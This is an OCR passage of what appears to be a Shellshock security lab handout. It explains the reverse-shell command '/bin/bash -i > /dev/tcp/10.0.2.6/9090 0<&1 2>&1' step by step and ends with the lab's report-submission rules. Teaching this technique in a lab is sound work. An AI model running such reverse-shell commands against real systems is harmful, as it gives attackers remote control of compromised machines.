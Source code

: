 server via the Shellshock attack. This bash command will trigger a TCP connection to the attacker machine’s
port 9090, and a reverse shell will be created. We can see the shell prompt from the above result, indicating
that the shell is running on the Server machine; we can type the _ifconfig_ command to verify that the IP
address is indeed _10.0.2.5,_ the one belonging to the Server machine. Here is the bash command:
```
Server(10.0.2.5):$ /bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&
```
The above command represents the one that would normally be executed on a compromised server. It is
quite complicated, and we give a detailed explanation in the following:

- _"/bin/bash -i":_ The option i stands for interactive, meaning that the shell must be interactive
    (must provide a shell prompt).
-_ "> /dev/tcp/10.0.2.6/9090":_ This causes the output device (stdout) of the shell to be
    redirected to the TCP connection to 10.0.2.6’s port 9090. In Unix systems,stdout’s file
    descriptor is 1.
- _"0<&1":_ File descriptor 0 represents the standard input device (stdin). This option tells the system
    to use the standard output device as the stardard input device. Sincestdoutis already redirected to
    the TCP connection, this option basically indicates that the shell program will get its input from the
    same TCP connection.
-_ "2>&1":_ File descriptor 2 represents the standard error stderr. This causes the error output to be
    redirected tostdout, which is the TCP connection.

In summary, the command_ "/bin/bash -i > /dev/tcp/10.0.2.6/9090 0<&1 2>&1"_ starts
a bashshell on the server machine, with its input coming from a TCP connection, and output going to the
same TCP connection. In our experiment, when the bashshell command is executed on _10.0.2.5_, it
connects back to the netcat process started on_ 10.0.2.6._ This is confirmed via the _"Connection
from 10.0.2.5 ..."_ message displayed by _netcat._


## 5 Submission

You need to submit a detailed lab report, with screenshots, to describe what you have done and what you
have observed. You also need to provide explanation to the observations that are interesting or surprising.
Please also list the important code snippets followed by explanation. Simply attaching code without any
explanation will not receive credits.


